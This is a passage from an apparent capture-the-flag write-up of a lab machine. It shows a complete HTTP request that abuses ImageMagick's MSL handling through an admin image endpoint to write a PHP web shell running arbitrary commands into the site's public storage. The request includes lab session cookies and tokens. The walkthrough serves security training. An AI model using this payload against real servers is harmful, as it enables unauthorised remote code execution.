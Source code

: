 ![image-20230915101756217](../img/image-20230915101756217.png)

By writing to `/var/www/html/intentions/storage/app/public/`, I can expect to
find the file in `/storage/`. I could also try the `animals` directory, but it
doesn’t work (www-data doesn’t have write access).

Now I’ll edit the request headers to add form data for a file upload. My full
payload looks like:

    
    
    POST /api/v2/admin/image/modify?path=vid:msl:/tmp/php*&effect=abcd HTTP/1.1
    Host: 10.10.11.220
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/117.0
    X-XSRF-TOKEN: eyJpdiI6IjVBa2tJN0RvMUNLVlBvRzhaaFhpTWc9PSIsInZhbHVlIjoidW9hUmFITGZsWUQ5NVYyVjcvNlFkc0hQVk9qc0dFTEUrRUFkd1ZEdlFxUHZ2VmlVcitjRlZqMC9saXFCTmt2WkVvQ2Fzb1FmVXMvWkZWcG16SUh4c2hNTWU3aFpaSnEwZURXdWRuTVd4ZDBrWkIrSTVzZlJkLzBJLzJHcyszaGQiLCJtYWMiOiJlM2U1ZTFhNDgzYmQ2ZGExYjkxOWZkZjcwMGJiZTQzMGUyNzY5MmU0NDAzZDVkNjgyNTA1NTE4YWFiMzJjZjE3IiwidGFnIjoiIn0=
    Cookie: XSRF-TOKEN=eyJpdiI6IjVBa2tJN0RvMUNLVlBvRzhaaFhpTWc9PSIsInZhbHVlIjoidW9hUmFITGZsWUQ5NVYyVjcvNlFkc0hQVk9qc0dFTEUrRUFkd1ZEdlFxUHZ2VmlVcitjRlZqMC9saXFCTmt2WkVvQ2Fzb1FmVXMvWkZWcG16SUh4c2hNTWU3aFpaSnEwZURXdWRuTVd4ZDBrWkIrSTVzZlJkLzBJLzJHcyszaGQiLCJtYWMiOiJlM2U1ZTFhNDgzYmQ2ZGExYjkxOWZkZjcwMGJiZTQzMGUyNzY5MmU0NDAzZDVkNjgyNTA1NTE4YWFiMzJjZjE3IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6InR0TmJOa0crRGhzSjhEZFQ4bmErRVE9PSIsInZhbHVlIjoidElDYnFRSm1kVjVRSGNmR3FyNzJsdG0yakVsRXFKdVRYR1FMWnRrS1dRSUI1S1BHeENab3E4bGhyTmlTTmszY1llbFRLR1grQ09Lb09mcERjZ29qRGREUUI0cXJLQVUyRzFvUXJSNWNoQXhTVXA3K1pDSy93SVUzRTg5UW9lTEciLCJtYWMiOiJiNDFkOTc2MTJjMDgxZWZjMDU3NzFiZjQzNTEzNzM4YzA4MzU3YWY2ZDU4YWY2N2QwMmNjYWVjYjJiN2YwZjAzIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92Mi9hdXRoL2xvZ2luIiwiaWF0IjoxNjk0Nzg0NjMyLCJleHAiOjE2OTQ4MDYyMzIsIm5iZiI6MTY5NDc4NDYzMiwianRpIjoiUm0yNTFTZkdQUzB5c2dEbyIsInN1YiI6IjEiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.WfIhNsk0pGCcD2BQm1LPmxFJpBAe5yR0ArgRErpFyCQ
    Content-Length: 383
    Connection: close
    Content-Type: multipart/form-data; boundary=------------------------abcd
    
    --------------------------abcd
    Content-Disposition: form-data; name="file"; filename="test.msl"
    Content-Type: application/octet-stream
    
    <?xml version="1.0" encoding="UTF-8"?>
    <image>
    <read filename="caption:&lt;?php system($_REQUEST['cmd']); ?&gt;" />
    <write filename="info:/var/www/html/intentions/storage/app/public/0xdf.php" />
    </image>
    --------------------------abcd
    

I can use anything for `name`, as I just need PHP temporarily store it in
`/tmp` before it realizes it’s not needed.
